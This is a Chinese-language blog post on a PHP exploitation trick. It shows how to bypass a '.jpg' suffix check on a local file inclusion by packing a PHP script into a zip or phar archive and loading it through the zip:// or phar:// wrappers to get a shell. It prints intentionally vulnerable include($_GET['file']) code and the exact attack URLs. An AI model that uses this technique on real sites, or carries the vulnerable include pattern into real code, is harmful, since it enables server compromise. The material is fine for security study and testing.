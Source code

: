 ```yaml
---
layout: post
title: zip或phar协议包含文件
categories: tricks
tags: [tricks,php]
---
```


这个方法适用于验证包含文件为特定后缀时。
例如以下代码

```php

<?php
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
	include($file);
}
?>

<?php
$file = $_GET['file'];
include($file.'.jpg');
?>
```
上面的代码一个验证了后缀是否为jpg，一个是直接添加了jpg后缀，然后才包含。对于现在这种情况，要包含php文件的话的，可以通过截断。但是\x00的截断在php>5.3.4就没用了，而且还要考虑GPC,所以是比较鸡肋的方法。其实我们可以通过zip协议和phar协议来包含文件。

**zip://**

首先我们新建一个zip文件，里面压缩着一个php脚本。


![2355213942](/old_img/2017-04-17-2355213942.png)


然后我们构造zip://php.zip#php.jpg

http://127.0.0.1/file.php?file=zip://php.zip%23php.jpg



![819654707](/old_img/2017-04-17-819654707.png)


这样就成功shell了。


**phar://**

首先我们要用phar类打包一个phar标准包

```php
<?php
$p = new PharData(dirname(__FILE__).'/phartest2.zip', 0,'phartest2',Phar::ZIP) ; 
$x=file_get_contents('./php.php');
$p->addFromString('a.jpg', 
$x); 
?>
```
会生成一个zip的压缩文件。然后我们构造

http://127.0.0.1/file.php?file=phar://php.zip/php.jpg

也可以直接shell

其中phar适用范围为php>5.3.0

以下的这种包含方式在这样的情况下是无效的。
include(一个规定的路径+可控点)


